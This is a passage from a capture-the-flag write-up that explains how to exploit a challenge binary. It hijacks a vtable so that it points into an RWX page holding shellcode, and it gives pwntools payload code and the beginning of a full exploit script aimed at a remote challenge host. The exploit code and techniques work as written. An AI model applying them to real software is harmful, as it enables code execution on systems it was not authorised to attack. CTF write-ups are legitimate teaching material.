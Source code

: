 to do this, the rwx region will act as both the vtable and the place where our shellcode resides.&#x20;

```
rwx_page = p64(0x0) + P64(&rwx_page+16) + [...shellcode]
          ^rwx*(0*8)        ^rwx*(1*8)       ^rwx*(2*8)
```

we'll use `editName` to overwrite the vtable and `feedback` to setup the vtable and shellcode

```python
payload = b'a' * 0x18 + p64(0x71) + p64(rwx)
edit(CAT, 0, payload)

payload = p64(0x0) + p64(rwx+0x10) + shellcode
feedback(payload)
hear(CAT, 1)
```

here's the exploit being ran againts remote

<figure><img src="../../.gitbook/assets/Screenshot 2024-10-11 190430.png" alt="" width="563"><figcaption></figcaption></figure>

below is the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = '103.145.226.92', 7272
```
